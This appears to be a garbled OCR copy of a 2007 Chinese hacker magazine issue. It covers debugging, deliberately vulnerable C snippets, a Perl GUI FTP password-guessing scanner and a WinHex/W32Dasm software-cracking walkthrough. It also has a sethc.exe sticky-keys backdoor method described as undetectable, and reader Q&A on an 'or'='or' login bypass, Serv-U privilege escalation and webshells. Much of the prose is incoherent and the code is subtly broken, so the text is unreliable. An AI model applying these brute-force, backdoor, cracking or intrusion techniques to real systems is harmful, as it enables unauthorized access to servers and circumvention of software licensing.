我们只需要在生成改动代码的单击事件中添加对 CodeFile 函数的调用即可。编译后，客户端生成服务器端，运行正常，如图 5 所示。


编辑点评：网站基于马儿就热衷了，可谓时！争来；麻烦。本文所介绍的幻术文步=用户，实现软件中的某种方法。其可行适而：序程序。

# Spssch 洞用 一条分之3

从本文您可以学到：
1、调试器的简单使用    2、编写安全代码的注意点

四条四阶段四十周，无缘与相知皆苦。有关有危需养时，案时易吞功成。

程序设计是一项容易出现差错的工作，一般来说，程序的错误有两种：

1、语法错误：在 vc++6.0 中，当语法出现错误时编译程序则会在语法错误的词句并指出行数，而避免这些错误发生的办法只有一个认真学习并切实掌握语法的功能和规则；

2、语义错误：源程序经编译通过后运行时出现了各式各样的错误，它们的有八几下右；a. 书写了错误的计算公式（易产生整数 bug 和缓冲区溢出），b. 忘记观测出发的数据情况（易溢出、越界、死锁、死循环，超限即死终），c. 程序结构或逻辑出错。

根据运行结果（包括运行过程中的错误提示）检查程序是否按预定的要求工作。如果程序被证明语义有错，就转入调试，直到程序中可疑错误的确定、反应、改正错误或用作。

1、静态查找：不用执行程序，仅根据程序和框图对求解过程的描述来发现错误。

2、动态查错：在程序执行的过程中寻找错误的确切位置，大家看下面一段程序：

```c
#include <stdio.h>
#include <math.h>

int main(){
    int i, n;
    long int s;
    s = 0;
    scanf("%d", &n);
    while (i<=(2*n-1))
        s = s+i;
        i=i+2;
    printf("total=%d\n",s);
    return 0;
}
//计算双列 i=1+3+5+7+...+n的项数的和
```

由于程序无语法错误，所以编译就不会报错！RUN一下，输入数字 5，回车，total=16。数列的和应为 25 才对嘛，怎么成了 16 了？仔细检查了一遍语法没有错，难道语义有误？F10 进入 vc 的调试界面，进行下述动态查错，ALT+5、ALT+6、ALT+8，好了，该调试的窗口都调出来了。解释一下，ALT+5 为进的断点对话框，ALT+6 为单步执行的界面，ALT+8 为对话框观察程序变量等；大家可从调试后的寄存器的状态的，ALT+6 的 memory 是用来查看地址上的数据的。大家可以慢慢测试，不用记忆一堆公式去死磕。

这仅仅是一次简单的调试，其实大家会说，照你说的用静态查看不是更简单嘛？大家不要误会，这篇文章的初衷是希望让一些跑到绝境熬的同仁，基础没打实就想一下变超人，有那神可呢？

# 软件漏洞调试

在漏洞调试的过程中，需要实时对程序的执行流程、情况等进行控制，然后根据程序执行的情况进行其他的一些处理。根据自己的喜好或工作的需要选择一款调试器，SoftIce、Windbg、OllyDbg或VC6.0自带的调试器等。SoftIce功能强大，适合于对操作系统进行破解和分析，但使用起来不方便，界面不够友好。Windbg是微软的一款系统及应用软件调试工具，短小精悍，功能强大，界面友好，和系统结合得非常完美。OllyDbg是一款应用软件调试工具。

断点设置分为在指令上设断点、在内存空间上设断点、在特定的中断上设断点以及API上设断点等。在Windows环境下，用到最多的就是在API函数调用上设置断点。可以说漏洞利用的关键技术就是调试技术，而调试的重点又在文件操作上。例如04011漏洞利用，根据分析，我们可以知道在溢出漏洞的函数会将几个字符再写到一个日志文件中，由此推测它可能会调用CreateFile函数和WriteFile函数。又比如在利用Office程序宏名溢出漏洞时，我们只知道它在将贝尔宏名时出现问题，那么就可以考虑Office读取Word文件时的过程，创建文件，为什么创建一个内容很多的宏名，在找，找到它可以在创建文件的函数调用后，查找宏名，然后在宏名上设置一个断点，当程序对宏进行操作的时候就会中断，达到我们寻找泄体点的目的。当然，很多专业的依赖软件安全的设计还是有赖自自己的调试，而Windows提供了用户调试器接口供用户自己开发调试器，同时，调试技术还用于软件漏洞分析，提供了大家学习、了解各种漏洞的情况。

```c
char_Line[256];
cout<<"Please Input."<<endl;
gets(Line);
cout<<Line<<endl;
```

我们首先来看这一个，首先是声明了一个长度为256的字符串，接下来利用gets函数来直接读取，在这里我们稍微的一些手段，大家不要想到超过256以后的效果好了，继续看下一个。

```c
char buf[20];
char S_[] = "http://";
strcpy(buf,S_);
strncat(buf, path, sizeof(buf));
```

strncat是从前几个参数中截取第三个参数长度的字符串在第一个参数的尾部增加，他竟然以自身的长度来截取字符串追加，不累坏才怪。

```c
char buf[20];
strncat(buf, data, sizeof(data));
```

这不是上面那个嘛？哈哈，上一个是不安全数，这里又来了一个马大哈，前面已经说过这个函数的功用了，如果我能控制data的内容岂不是无敌了。

```c
#define MAX 256
void main(int argc, char argv[])
{
    short len;
    char buf[MAX];
    len = strlen(argv[1]);
    if (len <= MAX) {
        strcpy(buf, argv[1]);
    }
}
```

这个有点麻烦了耶，虽然能控制argv的内容，可是却偏偏长度进行了限制，因此在这种情况下，看看len的声明，short？哈！天才啊。通常我们都是signed型变量的，当我们输入的数超过32K后，len变量的值就会发生溢出成为一个负值的数，当我们的输入大过64K时又是另外一番景象了，len赋值的时候发生越赋了，这样len就成了一个很小的正数了，这样不正好绕过了长度的检查，就连不想让他出错都难了。关于最后这个，分明的明说应该属于修改bug了，算是漏洞中的一个相关漏洞了。

【作者提到的spspnc利用——你一直关注程序已经快攻克真正重点了】

# 步入高级 Perl 与图形 FTP 命令解释器

从本文你可以学到：简单了解了Perl及Perl的GUI接口。

Win32Gui提供了几乎Win窗户上面的所有组件，在主窗口上添加组件、同样可以见到Win32Gui，这样的效果更改时，大家参照readme中的详细说明进行安装。安装完成后，简单介绍一下Win32Gui的用法，正如下述。

# 安全黑客手册 2007.12 -> [CRACKER]

```perl
use strict;
use warnings;
use NET::FTP;
use Win32::GUI;

my $user;
my $password;
# 申明全局数组 @user, @password

my $mainWin = Win32::GUI::Window->new(
    -title => 'win32GUI_FTPscanner--mohack.pl',
    -size  => [400, 350],
);

$mainWin->AddLabel(
    -pos   => [1, 1],
    -size  => [205, 16],
    -align => 'center',
    -text  => 'GUI_FTPscanner by wolfSea[w Group]',
    -sunken => 1,
);

my $in_ip = $mainWin->AddTextfield(
    -pos    => [1, 18],
    -name   => 'ip',
    -size   => [180, 21],
    -prompt => 'IP: ',
    -text   => '127.0.0.1',
);

my $in_file = $mainWin->AddTextfield(
    -pos    => [1, 38],
    -name   => 'user_file',
    -size   => [180, 21],
    -prompt => 'user_file: ',
    -text   => 'user_file.txt',
);

my $in_file2 = $mainWin->AddTextfield(
    -pos    => [1, 58],
    -name   => 'password_file',
    -size   => [180, 21],
    -prompt => 'password_file: ',
    -text   => 'password_file.txt',
);

my $button = $mainWin->AddButton(
    -pos   => [300, 18],
    -name  => 'start',
    -size  => [80, 60],
    -text  => 'start',
);

my $outcome = $mainWin->AddTextfield(
    -pos      => [1, 95],
    -name     => 'outcome',
    -size     => [391, 204],
    -multiline => 1,
    -vscroll  => 1,
    -hscroll  => 1,
);

$mainWin->AddLabel(
    -pos   => [1, 95],
    -size  => [398, 16],
    -align => 'center',
    -text  => 'There\'s more than one way to do it. --Extreme Perl',
    -sunken => 1,
);

$mainWin->Show();

sub start_Click {
    my $ip = $in_ip->Text();
    my $file1 = $in_file->Text();
    my $file2 = $in_file2->Text();

    if (open(FILE, $file1)) {
        $outcome->Append("[ERROR: Could not open the [user_file].]\n");
    }

    while (<FILE>) {
        chomp($user);
    }

    if (open(FILE, $file2)) {
        $outcome->Append("[ERROR: Could not open the [password_file].]\n");
    }

    while (<FILE>) {
        chomp($password);
    }

    foreach my $user (@user) {
        $outcome->Append("[W] Guessing User: $user\n");
    }

    foreach my $password (@password) {
        $outcome->Append("[W] Guessing Password: $password\n");
    }

    my $FTP = NET::FTP->new($IP);
    if ($FTP) {
        my $login = $FTP->login($user, $password);
        $FTP->quit;
    }
}
```

474 [NOHACKS]

# [CRACKER] 2007.12 黑客宝典之王手册


法（如：按钮、文本框、标签）还是都涉及到了，写简单的界面这桩也就是足够的，当然本文起到介绍的作用，自的在于窥得引玉。Perl的GUI方案还有很多，有待我们探索。文章的末尾，我们仍要夸奖一下，这里我使用 miniFTP 架设了一个本地 FTP 服务器，可以得到如图1所示效果。我们还可以用 PDK 将其编译成 exe 可执行文件。有什么问题，可在黑手论坛与我交流。

【作者提到的图形 FTP 密码猜解程序代码、Win32Gui 模块、miniFTP 服务器已经收录在光盘中】

编辑点评：CMD 下的操作虽然快速，但没有 GUI 的简单明了，对于新手，是不少人的挑战，因此 GUI 在这方面还是有所长处的。

# Cracker

# 86 的破解密语

这一年十一月，远去的钟声什么？这或许是一年一半就散去的过去了。这个字中，对 Cracker 来说，似乎过于什么呢？又或者说做的代码似乎多了，问尽我需要了一点东西，问我是怎么在这片，部分业务之上，两时四处沾的那一块又一块的环境，凭借这是在地下，我们又在黑暗中前行。站在一个厅上的分离，我并不一定我，不喜欢在网络里传播，及时后运等做密码分析的，应该是做些什么？或者说，我希望还能够把前期的内容整理出来，这部分将存留于本期的主题中。

# 破解新闻

- 1. CCG论坛重新开放

CCG 全称为 CHINA CrAck GrOup，中文名称为中国破解组织，成立于 1999 年 11 月。两个 Crack 技术的高手——Sun Bird 和 JOJO，育成许多中国黑客和情报业界最初的 Crack 技术和人才。和过去的 Group，Brain CG 以及国内很多均手动加入，壮大了其发展，其成员人数也越来越少，暂时有加入人，决定了 CCG 的发展艰难，直到今天，CCG 的价值也依然没有减少。

CCG 已经走向开放，CCG 的魅力依然不减，依然吸引诸多高手的前期加盟，更多资源，大家可以到 CCG 论坛 http://www.ccg.org.cn/bbs/index.php 了解更多的破解新闻与交流。

- 2. asp 服务器，网络链接转本地验证时用到的工具

使用说明：如果你不喜欢或者没条件用 IIS，请使用广大网管多媒体提供于 NETBOX 开发的 asp 服务器。

- 1. 打开 AspSerSet 程序，填写 Web 服务器端口（默认 80），点 [启动服务]。成功后在你的电脑右下角看一个对应的图标；在菜单中可以进行重连、关闭 web 服务器（相当于 IIS）。

- 2. 在当前文件夹下找到 wwwroot 这个文件夹，把你的网站放进去就可以了。

注意事项：主页名称为：index.asp，index.html，index.htm，default.asp，default.htm，default.txt 中的某种，端口默认为 80。


- 3. 易语言通用脱壳机

## # 破译安全黑手册 2007.12 -> [CRACKER]

人，因为易的 DLL 无法独立编译，所以这个应用相对来说很少。另外对于 Arm 的改进程序和 Themida 的 bundler 也还不支持。虽然以前也有过易语言的万能脱壳文章，但是易语言的通用脱壳机还是第一次看到，因为易语言的简洁性，导致使用易语言编写出来的程序，基本上是加壳了壳也不住 Crack 的，万能脱壳也不约而同地就发挥了作用。


# 破译资源

OllyDB 入门教程

由 kussy 制作整理的一个 OD 入门的好教程，本书中分为四个部分：第一卷 OldDBG 入门系列，第二卷 OllyDBG 技巧系列，第三卷 OllyDBG 改造系列和第四卷 OllyDBG 插件系列，篇幅都是基础，是都适合入门级的文章，所以非编程者深入门就是学习破解方面的朋友阅读，希望此教程会对你的学习过程有所帮助。相关连接：http://bbs.pediy.com/showthread.php?t=48237


# 破解之最基础的破解实战入门

从本文你可以学到：
1. 使用 Winhex 破解软件
2. 使用 W32dasm 的静态分析

看了前两期的理论之后，大家是否有点跃跃欲试的感觉呢？不过我还是认为能够多学习一些理论的话，最好还是要更多的学习一下，不然原理上了是基础的东西、不是就成了没用或者称谓，有时候，当时候，能让我们有学习的程序了，必定无法真正地掌握破解的核心。本文要不是那么枯燥，让我们开始我们的破解之旅吧！主要是介绍一下使用 Winhex 和 W32dasm 两款工具来破解软件！

# 【Winhex 太万能钉】

WinHex 是一个专门用来对付各种日常紧急情况的小工具。它可以用来检查和修复各种文件，恢复删除文件，硬盘恢复提取查找数据等。同时它还可以让你看到正在处理程序硬盘出来的文件和数据，总本来说是非常不错的 16 进制编辑器。ZDNetSoft-WareLibrary 五星级最高评价，那么它究竟是个怎么样的软件呢？其实使用这个工具最有一套的变成我们程序员们是一场叫做，结果更加明确的注册程序是一个钥匙程序，当然，这个工具就定位于会失败的，为什么呢？因为软件收费是注册即付费，更适合用于日常保密软件。

注册界面采用机器码+注册码机制，这是目前非常流行的一种软件保护方式，不过这个对话框记得乐子不买关钥了，不然就找不到注册码出来了。我们在打开 WinHex，启动之后选择“打开 RAM”，如图2，打开之后，会有一个对话框。这时候将被动于下图，会看到“小东双快递单打印软件”这个过程，点一下前面的“+”号，如图3。之后再选择“整个内存”，再点“确定”之后就到了上文模块的界面了，这时候选择“搜寻->查找文字”（该中文化的问题，有些版本可能为“搜索”）


一般来说，注册码会在假注册码的下面，所以在下滚动查看，如果滚动得很多找不到的话，就按一下 F3 搜寻下一个。然后在下次搜索的那处，我们发现它在“易”的地方找到了注册码，之后双击它，然后按下确认，这样便会弹出对话框，如图6。


以这次为例，别问我“搜索”，或者以我们的眼睛，似乎有点夸张了…在下方的文字字符查找窗口中输入我们注册时输入的注册码，再点“确定”，往下拉滚动，得到我们想要找的，如图6。


如果滚动很快找不到的话，就按下 F3 搜寻下一个，依次往下找之后，便会找到我们的注册码信息。

# 【W32Dasm 屠龙争锋】

W32Dasm 是一个静态反汇编工具，也是破解人员常用的工具之一，它也被比作破解人员的屠龙刀。W32Dasm 1.0 破解版是 Kller 在 W32Dasm 9.83 基础上修改的，修改后的 W32Dasm 功能更强大，能完美显示中文字符串及 VB 程序，内含 16 位辅助编辑器，破解修改软件更容易，实可谓是反汇编破解工具！W32Dasm 的修改版本很多，我这里以玩石为本的版本为例来介绍。这次面向的目标是一个 Crackme，具体什么是 Crackme，可以参考前一页的《破解术语介绍》，这里我就不重复了！破解它有若干步骤，运行它，然后往注册一下，如图 9。结果很明显它有错误提示，但这时注册的代码其实可以被看做大段的相同数据，我们只要继续分析即可。

在菜单栏中可以看到“反汇编”“编辑”“选项”等，基本配置都是按照默认的就可以，我们需要获得的信息是“PE 信息”，点它一下，再选择“字符串参考”，如图 11。打开之后可以看到一个对话框，字符串信息基本在这里可以看到，因为是一个 Crackme，所以字符串内容比较少，如果是软件的话，就不可能是这么少的了，如图 12。

下，再选择“字符串参考”，如图 11。

从这里观察会看出，注册码是有规律的，注册码的顺序是 6、2、8、7、-、A，组合起来就是 6287-A，所以这里我们可以获得的信息是，用户名只要大于 5 位，注册码为 6287-A 就能注册成功了。

# 一些 pe 知识中很灿烂的概念的解释

会从这些跳到失败处。

关键跳转，如果是爆破的话，这些地址都需要修改的，这样才能达到完全爆破的目的。

好了，这是一个简简单单的 Crackme，只要有一点点汇编指令基础的都能够看懂，万丈高楼平地起，破解也是一样，需要把基础打牢了。对以后的学习是很有帮助的！这是一次非常基础的入门实践，希望大家都能够看得懂，不懂的可以去找一些资料，或者上黑客论坛发帖交流一下。下一次，我们再继续学习。See you next time！

【本文介绍的相关工具和程序已收录在本期光盘中】

编辑点评：文章主要介绍 WinHex 和 W32Dasm 两款工具的使用，但作者对介绍的实例非常经典，提炼来使之能非常容易地上手，并可感受到破解的魅力所在，难道不是吗？

从本文你可以学习到：一些 PE 知识的概念

最近猛啃“PE 格式”的知识，终于小有收获。① 输入表，输入地址表，输入节……晕了吧。② 虚拟地址，相对虚拟地址，原始地址……又傻了吧！先回到②，因为它比较简单，也最常见。由于 PE 格式的文件存在内存和磁盘也是两个格式（因为对齐不一致），当然也不能人为使其一样），所以才令人头疼各种各不相同的地址。原始地址（又称磁盘地址，raw address），它是 PE 文件储存在磁盘中的格式；虚拟地址（virtual address），对相对虚拟地址（Relative Virtual Addresses）相对来说比较重要。VA = RVA = ImageBase。至于关系内存中的地址。这里还有一块比较难搞的名称，如磁盘偏移和文件偏移，也和上面相同。一个是磁盘中的偏移，一个是内存中的偏移。对于①，不知难倒了多少想学黑客的小鸟。首先是因为名称，听起来太晕了。我在写文章时也觉得把概念搞混了，如果你没有认真地看，似乎你只能做个明白的解释。我以个例子来示范。工具有六讲，我用的编辑器（Hex Workshop，它们的功能各有不同，但对于我来说，都可以用），OD、PETools（甚至还有小型练习软件），目标 Windows 下的计算器（大家不清楚的话，我说个软件，你们应该就会明白。比如图 2 中显示图 2 个 Import Directory，我我们打开它看看，搜一搜，相关信息。

定位呢？方法：首先看图 1，根据虚拟偏移和 Import Directory 的 RVA 的对比知道 Import Directory 在 .text 内容，记下 virtual offset = raw offset 的值，这里是 0，然后 Import Directory 的 RVA = C000，现在这个偏移为 11F80，虽然它可以写，剩下的只是 PE 格式的问题，Import Address Table 人如其名，里面是函数地址的表格，因此可以看出里面的内容很容易被猜测。其实看图 1 也可以知道些地址不可能有（哭不是知道哪里有）。

我们也许知道了函数地址了，但不知道这些地址不可能有（哭不是知道哪里有这些地址），因此我们再结合输出中的内容，在字典 first thunk 结合函数地址列表，所以可以对其地址进行分析，看看它们在表中是否有对应地址，如果有也可以直接写入 IAT，了解了这一步，我在这里便不再重复。importtrec，如图 4。

是否觉得 functions found 下面的框内的内容很熟悉呢？综合下面的 log 中我们可以猜到，大概修复顺表，需要将 import directory 的内容改为 IAT，……不一不对。最后告诉你，骡子戏上面所说的，务必自己去观察一下，观察内容中的某些对比，就可以得到我们 OD 那是最好不过了。

编辑点评：PE 知识，是既必不可少的基础，半时饭点总是跟着别人的教程走，有没有想过自己去尝试呢？去做一个新先呢？没有实战到无其他妙处啊？那就请要靠着自己平时的基础和常识来战吧！

# 对于两篇文章的一点看法

图 火虫

从本文可以学到：
- 更完整的 autorun.inf 病毒防范方法

拿到了 2007 年 11 月的《黑客手册》，翻来翻去又学到了不少的知识，不过对于一些文章，个人觉得还是有些感觉之处，所以在此抛来与大家的出来了，欢迎大家指正。

首先是 SDS 的网吧安全上网的文章，SDS 对于整个网吧可能遇到的情况分析得很好，但是个别的方法似乎不是很实用，比如关于 autorun.inf 病毒的防范，并不是简单的建立文件夹就能实现的，病毒有可能删除这个文件夹而变成同名文件。鉴于此，我们可以建立一个无法删除的 autorun.inf 文件夹。

```bash
cd
md autorun.inf
xcopy autorun.inf autorun.inf /s /e /h /i
cd\...
md nohack.inf
```

至此，删除不了的文件夹建立成功，以后就不用担心病毒了。

另外，在 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies 这个注册表分支中新建 NoDriveAutoRun 和 NoDriveTypeAutoRun 这两个键也可以阻止自动运行。前者是阻止指定的盘符运行，后者是阻止这种类型的设备运行。

想多说一句的是，自动运行和自动播放不是一个概念，前者依然是 autorun.inf，后者依赖于 shell hardware detection。

两个概念是不同的。

另外，我们知道，autorun.inf 是依靠 “shell32.dll” 文件实现的，因此，我们可以用 WinHex 之类的软件反汇编，复制 shell32.dll 到任意目录并用 WinHex 打开，查找 autorun.inf，并将其替换成 XXXXrun.inf（参考这个字节），然后修改 autorun.inf 相关内容，令其在下拉框中选择 unicode 进行保存即可。之后把修改过的文件复制到 C:\windows\system32 和 C:\windows\dllcache 目录下替换掉初始文件即可。

接下来就说说 SHIFT 后门，当时本来这以为这个方法很好的，万幸是回家试验，结果重命名文件的时候 Vista 服务器根本不好使，也出现提示如图 1。

当时那段时间，由于 Vista 不能重命名，所以这种方法行不通了。不过最后查到了解决办法，以管理员身份登录（必须是管理员 administrator），输入以下命令：

```bash
takeown /f c:\windows\system32\sethc.exe
cacls c:\windows\system32\sethc.exe /e /g administrators:f
```

之后就可以用其他的软件代替这个 sethc.exe 了，作者有一点说得不是很清楚，其实这个漏洞可以用来入侵，而且不会被查杀，无论是什么杀毒软件，都不会查杀这个文件，因此这也不是另一种好的入侵方法。至于防范，应该只有加入验证，比如在本来中模拟登录程序，所以就想着了，上网在高手写了验证脚本，大家可以自己去搜一下。

> 编辑点评：
学以致用，完美文章，根版管理员网友们这种学习精神，希望更多的读者朋友们在阅读此文后也能对本文写出自己的理解并提交到本刊投稿。

Q：我进入了后台却得不到 webshell，具体如下：今天运气不错，在网上随便找了个站点，让我发现竟可以用 "or"='or' 登录后再自动转向后台入口也在主站上，可以是别人后台口令和密码登录？
A：这是由多个站点共同的安全缺陷组成的，因为 ISP 的缓存、这个站点的安全设备都做了处理，但我可以发现是个替换漏洞。这让站点的脚本执行未加验证时，虽然没有输入就直接进入到后台页面，即使用户表单验证了密码，属于后台管理程序设计缺陷。具体方法可参见本期的有关案例图。

原文链接：http://www.nohack.cn/bbs/thread-70150-1-1.html

Q：我去另一个网站上也试过了，上面的内容一样的方法都没用，竟然进入到了页面，可是觉得试试就进去，实际上用了一个类似的 SQL 注入点。
A：我建议重新考虑身份验证的流程，最好的做法是对敏感接口进行权限校验。对于网页表单、URL 参数以及后台管理入口都应当单独加固，而不是依赖隐藏链接或前端跳转。

# 非安全《黑客手册》2007.12 →【读编互动】

原文链接：http://www.nohack.cn/bbs/thread-70009-1-1.html

Q：关于 Serv-U 提权，写了几天的教程，今天也从网上找了带有漏洞的站点。先上传我的小马，然后再上线的我大的马（天蚕无痕）到挂站目录，跳过了一切所谓的密码验证，控制全部服务器。可是问题出现了：里面提权成功，但是我无法进行连接。后来我又上传了带 http 的飞蚁到的 webshell 带到服务器，到了 1200 端口，如果直接连接后，IP 被转发了？

A：关于服务端漏洞方面，让你不能连接进去，因是因为防火墙或服务器配置问题，请联系你的权限高的管理员，查看 Serv-U 的相关设置。

Q：我听说使用 webshell 时，如果是匿名访问，webshell 是可以连接到 webshell 本身的？

A：是的，但是如果你只是想通过 webshell 来访问站点，那么就去网站的 config 或者 index.php 里查看，如果后续的操作，最好是不要用 webshell，而是使用客户端工具，比如 UltraEdit，查询更方便。

Q：新人的 webshell 会不会用？请帮我看一下这个网址：http://soft.buaa.edu.cn/bianbaogsoft.cn/?p=news-show.asp?column_id=5&column_cat_id=34&sort=soft.buaa.edu.cn/bianbaogsoft.cn/jp/news-show.asp，这个怎么不是一两行啊？

A：明白了是不是别人封的 webshell 啊？我怎么不见到登录窗口啊？

A：这个站点是别人用一种可以拦截 shell，给你调出来的内容不同，造成这样的变化，自己要小心一点，避免不小心把网站搞坏。

# 黑手·改版

城市 / 江西省  
论坛ID / 零飞洱  
邮件 / zhniyao@yahoo.com.cn

十月改版你打分，理由是：
这之前正好讨论了一种小彩样！以前大大的黑手携带十分不方便，且不能隐藏。现在好了，再也不用担心身份暴露，而且价格便宜了，实在是——哈哈

城市 / 河南三门峡市  
论坛ID / 冷月柔冰  
邮件 / huan54F8@qq.com

十月改版你打 90 分，理由是：
这样小开本给我一种小粽子的感觉，实用在许多杂志都是这样的，让我觉得有点失望，但内容还是那 28 万分，加油啊！“黑手”要有自己的风格，还是觉得 16 开的“黑手”拿起来比较有气势！

众口难调啊……的味道：改版近一年，眼看圣诞到了！不知不觉又一年了，感谢各位一如既往地支持着我们，杂志改版给说场……

# 读者·理论

城市 / 任丘  
论坛ID / jescan  
邮件 / jescan@163.com

一对于十月改版，你还有其他看法吗？
我现在是一名高三的学生，从高三的时候偶然看到“黑手”后便不能释怀。我看过旧文、学的荒魂的草魂，这更使得在此内心深处留下了一个信息：我也要当一名真正的黑客。在高二下半年，我看到了《黑手黑客》最忠实的买下了，而且都很认真的看……

城市 / 鄄州  
论坛ID / 沧客蜘蛛  
邮件 / hkab@163.com

一为何什么建议和意见
经常用学部都能在校园里见我头的《黑手客手册》，他们并不认可，以为黑客就是通过网络入侵他人计算机，查看别人的隐私，破坏系统。有的还要问上面报告呢！我想他们一定是误解了黑客。黑客是指通过计算机技术，善于发现计算机并在系统中的漏洞，我们以为黑客应该团结技术，维护网络安全为己任！

城市 / 河北石家庄  
论坛ID / 无  
邮件 / zcxcn@163.com

一对于十月改版，你还有其他看法吗？
应加一些励志性做件，让大家真正理解黑客，不要总以为黑客的目的是入侵别人的计算机、盗取账号数据——这些信息。作为黑客要有黑客精神，从另一个方面维护网络安全才是当黑客的真正目标！

误人歧途而知迷而返之类：老修又出新丁！不容易啊！刚刚开完步又一年了，不要以小黑的黑客就是高手、却未曰自己不进化，那永远都是“菜”们们眼中的手！岁好玩都是有一句话：呵大，我想你……